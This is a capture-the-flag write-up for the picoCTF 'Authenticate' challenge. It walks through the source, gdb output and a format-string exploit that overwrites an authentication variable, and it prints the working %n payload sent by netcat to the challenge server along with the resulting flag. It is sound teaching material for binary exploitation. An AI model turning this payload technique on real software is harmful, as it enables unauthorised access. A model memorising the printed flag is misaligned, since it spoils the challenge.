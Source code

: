 # Authenticate - Pwn

On this challenge, we get this source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

int authenticated = 0;

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}

void read_flag() {
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  }
  else {
    printf("Access Granted.\n");
    flag();
  }

}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  printf("Would you like to read the flag? (yes/no)\n");

  fgets(buf, sizeof(buf), stdin);
  
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  
  read_flag();

}
```

Here we see that we need to get authenticated to equal 1 in order to get the flag. We then find a format string vulnerability on this line:
```printf(buf);```

First we fire up gdb and diassemble the read_flag function:
```
gdb-peda$ disas read_flag
Dump of assembler code for function read_flag:
   0x080486e4 <+0>:    push   ebp
   0x080486e5 <+1>:    mov    ebp,esp
   0x080486e7 <+3>:    sub    esp,0x8
   0x080486ea <+6>:    mov    eax,ds:0x804a04c
   0x080486ef <+11>:    test   eax,eax
   0x080486f1 <+13>:    jne    0x8048705 <read_flag+33>
   0x080486f3 <+15>:    sub    esp,0xc
   0x080486f6 <+18>:    push   0x8048934
   0x080486fb <+23>:    call   0x80484f0 <puts@plt>
   0x08048700 <+28>:    add    esp,0x10
   0x08048703 <+31>:    jmp    0x804871a <read_flag+54>
   0x08048705 <+33>:    sub    esp,0xc
   0x08048708 <+36>:    push   0x8048958
   0x0804870d <+41>:    call   0x80484f0 <puts@plt>
   0x08048712 <+46>:    add    esp,0x10
   0x08048715 <+49>:    call   0x804865b <flag>
   0x0804871a <+54>:    nop
   0x0804871b <+55>:    leave  
   0x0804871c <+56>:    ret    
End of assembler dump.
```

Here we see this line:
```0x080486ea <+6>:    mov    eax,ds:0x804a04c```

This will move the authenticated variable into the register EAX, and ds stands for data segment. This instruction is hardcoded which means that authenticated variable will always be on this address, and this makes it easier for us.

First I need to check where I can set breakpoint in main to be able to see how the stack looks after the call to the vulnerable function printf as I mentioned earlier.

```
....
0x080487e5 <+200>:	push   0x80489aa
   0x080487ea <+205>:	call   0x80484f0 <puts@plt>
   0x080487ef <+210>:	add    esp,0x10
   0x080487f2 <+213>:	sub    esp,0xc
   0x080487f5 <+216>:	lea    eax,[ebp-0x4c]
   0x080487f8 <+219>:	push   eax
   0x080487f9 <+220>:	call   0x80484b0 <printf@plt>
   0x080487fe <+225>:	add    esp,0x10
   0x08048801 <+228>:	call   0x80486e4 <read_flag>
   0x08048806 <+233>:	mov    eax,0x0
   0x0804880b <+238>:	mov    edx,DWORD PTR [ebp-0xc]
....
```

I set a breakpoint after the printf line here with:
``` b * 0x080487fe```

Then I run this:
```run <<< $(python -c 'print "\x4c\xa0\x04\x08%p%p%p%p%p"')```
To start the program and %p prints what is on the stack. I then use ```x/xw $esp``` to see how the stack looks like:
```
gdb-peda$ x/xw $esp
0xffffd280:    0xffffd2ac
gdb-peda$ 
0xffffd284:    0x080489a6
gdb-peda$ 
0xffffd288:    0xf7fa15c0
gdb-peda$ 
0xffffd28c:    0x0804875a
gdb-peda$ 
0xffffd290:    0x00000000
gdb-peda$ 
0xffffd294:    0x00ca0000
gdb-peda$ 
0xffffd298:    0x00000000
gdb-peda$ 
0xffffd29c:    0xffffd3a4
gdb-peda$ 
0xffffd2a0:    0x00000000
gdb-peda$ 
0xffffd2a4:    0x00000000
gdb-peda$ 
0xffffd2a8:    0x00000000
gdb-peda$ 
0xffffd2ac:    0x0804a04c
```
We see here that the address 0x0804a04c is on the 11th step, which means that when we run this:
```python -c 'print "\x4c\xa0\x04\x08%11$p"' | ./auth ```
Here, ```$``` says which place on the stack we should write/read from. From the output on the command above, we should get the address and that is what we get:
```
Would you like to read the flag? (yes/no)
Received Unknown Input:

L�0x804a04c
Sorry, you are not *authenticated*!
```

Now we need to write something to the stack and we can use %n for that. So we change from %p to %n

```python -c 'print "\x4c\xa0\x04\x08%11$n"' | nc 2018shell2.picoctf.com 26336```

The %n prints out the length of what has been printed out from printf which is 4 in this case, so authenticated will contain the number 4 which works because authenticated will be true as long as it is not 0.

If we run the command above, we get the flag: 
```
Would you like to read the flag? (yes/no)
Received Unknown Input:

Access Granted.
picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_e8337b91}
````

